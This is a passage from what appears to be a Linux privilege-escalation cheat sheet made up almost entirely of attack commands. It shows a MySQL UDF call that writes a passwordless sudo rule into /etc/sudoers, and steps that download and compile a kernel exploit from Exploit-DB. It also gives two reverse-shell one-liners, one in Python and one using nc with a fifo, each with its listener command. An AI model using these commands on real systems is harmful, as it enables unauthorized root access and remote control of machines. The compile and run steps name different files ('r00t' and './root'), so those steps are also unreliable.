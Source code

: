 ```
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select do_system('echo " user ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');   
+-------------------------------------------------------------------+
| do_system('echo " user ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers') |
+-------------------------------------------------------------------+
|                                                        4294967296 | 
+-------------------------------------------------------------------+
1 row in set (0.00 sec)                                   

mysql> exit                                               
Bye                                                       
user$ sudo bash  
```

## Exploit Kernel 
### See Kernel version:
```
uname -a
searchsploit kernel_version -w
wget https://www.exploit-db.com/exploits/35161 -O 35161.c
gcc 35161.c -o r00t
./root
```

## Get a shell

On your machine :
```
nc -lvnp 9001
```

On victim :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```
OR

On your machine :
```
nc -lvnp 1337
```
On victim :
```
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc IP 1337 >/tmp/f
```


